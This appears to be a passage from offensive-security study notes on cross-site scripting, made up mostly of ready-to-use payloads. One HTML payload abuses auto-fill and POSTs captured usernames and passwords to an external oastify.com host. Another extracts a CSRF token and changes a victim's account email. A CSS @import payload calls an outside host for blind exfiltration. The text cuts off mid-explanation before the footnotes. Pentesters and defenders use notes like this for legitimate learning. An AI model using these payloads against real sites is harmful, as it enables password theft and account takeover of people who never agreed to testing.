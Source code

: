 ## Capture passwords exploiting auto-fill

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://uusx5ulcqjyd4ypy5x9hhjhoffl89zxo.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Related article: [Stealing passwords from infosec Mastodon - without bypassing CSP](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp)

## Exploiting XSS to perform CSRF

>[!tip]
>See also [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md)

The payload first extract the CSRF token from the "change email" function, then perform the CSRF attack:
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

Other references:
- GIS3W: [Persistent XSS in G3WSuite 3.5](https://labs.yarix.com/2023/07/gis3w-persistent-xss-in-g3wsuite-3-5-cve-2023-29998/) – CVE-2023-29998
- [AtMail XSS to RCE](https://bishopfox.com/blog/how-i-built-an-xss-worm-on-atmail)
- [Chaining XSS, CSRF to achieve RCE](https://rhinosecuritylabs.com/application-security/labkey-server-vulnerabilities-to-rce/)

## CSS injection and exfiltration

You can use the `@import` rule that works also for **blind CSS exfiltration**:
```html
"><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

The main technique to exfiltrate information via CSS Injection is to try to match a text with CSS and in case that text exist load some external resource:


[^css-k]: https://github.com/maxchehab/CSS-Keylogging
[^video]: [The Curse of Cross-Origin Stylesheets - Web Security Research](https://youtu.be/bMPAXsgWNAc?si=fsmfIXeraW_2bDOM&t=317)
[^CSP-JSONP]: [Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md), SMHTahsin33
[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing